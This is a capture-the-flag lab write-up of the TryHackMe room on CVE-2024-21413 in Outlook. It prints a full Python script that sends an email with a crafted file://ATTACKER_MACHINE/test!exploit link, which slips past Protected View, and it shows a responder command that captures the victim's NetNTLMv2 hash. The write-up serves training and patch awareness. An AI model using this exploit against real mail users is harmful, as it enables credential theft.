







Moniker Link (CVE-2024-21413) Exploit Write-Up

June 20, 2025
1. Introduction
This writeup comes from the TryHackMe Moniker Link (CVE-2024-21413) room, where I demonstrate how to exploit a machine with the CVE-2024-21413 vulnerability.
This vulnerability has been noted alongside the following details:
| Field | Details |
|---|---|
| CNA | Microsoft Corporation |
| Published | 2024-02-13 |
| Updated | 2025-05-03 |
| Title | Microsoft Outlook Remote Code Execution Vulnerability |
| Description | Microsoft Outlook Remote Code Execution Vulnerability |
| CWE ID | CWE-20: Improper Input Validation |
| CVSS Score | 9.8 (CRITICAL) |
| CVSS Vector | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H/E:U/RL:O/RC:C |
| Affected Products | - Microsoft Office 2019 on 32-bit and x64 systems: from 19.0.0 before Security Releases - Microsoft 365 Apps for Enterprise on 32-bit and x64 systems: from 16.0.1 before Security Releases - Microsoft Office LTSC 2021 on 32-bit and x64 systems: from 16.0.1 before Security Releases - Microsoft Office 2016 on 32-bit and x64 systems: from 16.0.0 before 16.0.5435.1001 |
Outlook renders its emails using Hyper Text Markup Language (HTML), which is a standard language for structuring and displaying content. This ensures that Outlook is able to interpret and display HTML elements, including hyperlinks that use protocols including HTTP and HTTPs. With this, another mechanism is able to be parsed by Outlook, and this mechanism is known as a Moniker Link.
These are unique URLs that leverage Windows COM (Component Object Model) monikers, where objects are used to dynamically reference resources or invoke unwelcome actions. When these links are embedded in emails, they can be created in such a way that invoke local or remote resources in malicious ways. In the vulnerable version of Outlook that I will be using in this demonstration, a Moniker Link can be exploited to trigger the automatic loading of malicious content, potentially leading to Remote Code Execution (RCE) without user interaction.
Outlook does implement a security feature that prompts a message when external applications are triggered, and is called Protected View. This feature opens emails that contain items such as attachments, hyperlinks, or similar type of content in read-only mode. This allows Outlook to block actions such as macros.
In this walkthrough, I will be using file:// as the Moniker Link in the malicious hyperlink. As Outlook will block the typical Moniker Link
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>, I will instead adjust the link to include an exclamation mark, which is a special character that can bypass Outlook's Protected View. When updated, the Moniker Link becomes
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>. Notice the placement of the special character.
1.1 Scope
• Creation of Exploit Python File
• Setting Up the Attack
• Executing the Exploit
2. Creation of Exploit Python File
Tools Used
• nano: a tool that is used to edit files and scripts from the terminal
This investigation start with the use of a victim machine and an attacker machine. A script titled exploit.py was created, as provided by TryHackMe.
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr
sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
</body>
</html>"""
message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email
# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)
server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
server.login(sender_email, password)
except Exception as err:
print(err)
exit(-1)
try:
server.sendmail(sender_email, [receiver_email], message.as_string())
print("\n Email delivered")
except Exception as error:
print(error)
finally:
server.quit()It is important to adjust the ATTACKER_MACHINE and MAILSERVER. In this investigation, I replaced ATTACKER_MACHINE with my attacker IP address 10.10.90.151, and MAILSERVER with the server IP address generated by TryHackMe, 10.10.46.81.
Once edited, I input the command nano exploit.py.

In this new panel, I pasted the updated script. After this was completed, I saved this to the machine, ready for exploitation!

3. Setting Up the Attack
Tools Used
• responder: a tool that can be used to capture and manipulate network authentication protocols
• Outlook: an email application that allows a user to receive and send emails
To execute this exploit, the victim machine runs a vulnerable version of Outlook.

I ran the responder tool utilising the command responder -I ens5. Responder will be used in this investigation as it can be used to networking poisoning attacks, enabling it to harvest credentials. -I ens5 denotes the network interfact to listen from, which is ens5 in my case.

4. Executing the Attack
Tools Used
• Outlook
• exploit.py
In a new terminal, I executed my exploit script using the command python3 exploit.py. When requested, I provided the password of the attacking email as per TryHackMe's website which is attacker. I can see that this has been successful, as the program prints the message Email delivered.

Viewing this email in the victim machine, they have received a suspicious email with a link that says Click me. When clicked, an error is shown.

Reviewing the responder results in the attacker machine, I am now able to observe the sensitive netNTLMv2 password hash of the victim.

5. Conclusion
In this demonstration, I highlight how an attacker may exploit CVE-2024-21413 by crafting an email which contains a moniker link to obtain the users NTMLv2 password hash from a vulnerable Outlook client. A python-based script is used alongside responder to listen for authentication attempts. In this simulation, the victim has been successfully tricked into initiating a connection with the malicious file path, which subsequently triggers automatic credential harvesting. The underlying behaviour in this version of Outlook, which is rendering and attempting to access the embedded file:// was sufficient to leak the users authentication data to my AttackBox. This demonstrates the inherent risk in client-sidew parsing of these types of crafted links and foregrounds the importance of security updates and disabling link resolution in email clients. In this controlled environment, this writeup has thoroughly illustrated how even with minimal user interaction, credentials can still be compromised and stolen. Reflecting on methods to mitigate these types of attacks, users can implement more secure configurations within email clients, and ensuring proactive patch management to effectively protect against vulnerabilities such as CVE-2024-21413.